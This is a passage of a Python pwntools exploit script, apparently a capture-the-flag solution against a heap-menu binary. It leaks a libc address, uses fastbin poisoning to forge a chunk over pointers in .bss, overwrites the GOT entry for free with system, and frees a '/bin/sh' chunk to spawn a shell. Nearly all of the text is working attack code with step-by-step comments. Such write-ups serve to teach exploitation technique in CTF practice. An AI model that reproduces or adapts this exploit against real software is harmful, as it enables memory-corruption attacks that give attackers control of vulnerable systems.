 ```
	target.recvuntil(">>")
	target.send(content)

def showZealot(index):
	target.recvuntil(">>")
	target.sendline('4')
	target.recvuntil(">>")
	target.sendline(str(index))

# Make the inital chunks for the libc infoleak
makeZealot(0xf0, "0"*0xf0)#	0
makeZealot(0x70, "1"*0x70)#	1
makeZealot(0xf0, "2"*0xf0)#	2
makeZealot(0x30, "3"*0x30)#	3

# Free the bottom to chunks, to align arena libc pointer with chunk 2
destroyZealot(3)
destroyZealot(2)

# Leake the libc pointer stored in chunk 2
showZealot(2)

# Parse out the infoleak, calculate libc base
target.recvuntil("[*]SHOWING....\n")

leak = target.recvuntil("|").strip("|")
leak = u64(leak + "\x00"*(8 - len(leak)))
libcBase = leak - 0x3c4b78

print "libc base: " + hex(libcBase)

# Calculate the address of the fake chunk
fakeChunk = 0x605310 - 0x23

# Make our two chunks for the fastbin attack
makeZealot(0x60, "1"*0x60)# 4
makeZealot(0x60, "2"*0x60)# 5

# Free those two chunks
destroyZealot(4)
destroyZealot(5)

# Edit chunk 5 which is on top of the fastbin list, overwrite the pointer to the next fastbin with our fakechunk address
fixZealot(5, 0x60, p64(fakeChunk) + p64(0) + "0"*80)

# Allocate a new chunk, move our fake chunk to the top of the fastbin list
makeZealot(0x60, "6"*0x60)# 6

# Allocate a new chunk, which will be our fake chunk right before the heap ptrs stored in the bss
makeZealot(0x60, "0")# 7

# Overwrite the first heap ptr with the got table entry for free
fixZealot(7, 0x1b, '0'*0x13 + p64(elf.got['free']))

# Overwrite got entry for free with system
fixZealot(0, 0x8, p64(libcBase + libc.symbols['system']))

# Write the string `/bin/sh` to chunk 1
fixZealot(1, 0x9, "/bin/sh\x00")

# Free chunk 1 to call system("/bin/sh")
destroyZealot(1)
```